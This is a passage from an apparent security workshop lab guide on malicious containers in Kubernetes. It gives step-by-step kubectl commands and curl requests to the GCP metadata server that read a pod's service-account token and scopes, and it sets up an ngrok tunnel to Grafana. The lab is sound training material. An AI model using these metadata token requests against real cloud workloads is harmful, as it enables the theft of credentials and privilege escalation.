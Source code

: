```
kubectl apply -f k8s-manifests/pods.yaml
```

You can run this to delete the evilpod since you're done with it.
```
kubectl delete -f k8s-manifests/evilpod.yaml
```

### Slide 151 - Ex: Cloud Metadata attacks

Execute a pod in our lab with heavily restricted permissions.

```
kubectl apply -f https://raw.githubusercontent.com/lockfale/Malicious_Containers_Workshop/main/DC31/k8s-manifests/nothingallowedpod.yaml --namespace lab-namespace
```

Start a shell in our restricted pod
  
```
kubectl exec -it nothing-allowed-exec-pod -n lab-namespace -- bash
```

```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/'
```

```
curl -H "Metadata-Flavor: Google" 'http://metadata/computeMetadata/v1/instance/id' -w "\n"
```

```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

```
curl -H 'Metadata-Flavor:Google' http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes
```

### Slide 155 - Play with Prometheus/Grafana

```
export WORKER1=$(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' lab-worker)
```

Create a tunnel for Grafana:
```
ngrok http $WORKER1:31000 --oauth=google --oauth-allow-email=<your.email>@gmail.com
```

Open the ngrok provided URL

Click through the warning message, login with your Google Account matching the email you provided in the ngrok command

You now have access to your Grafana Dashboard from the internet
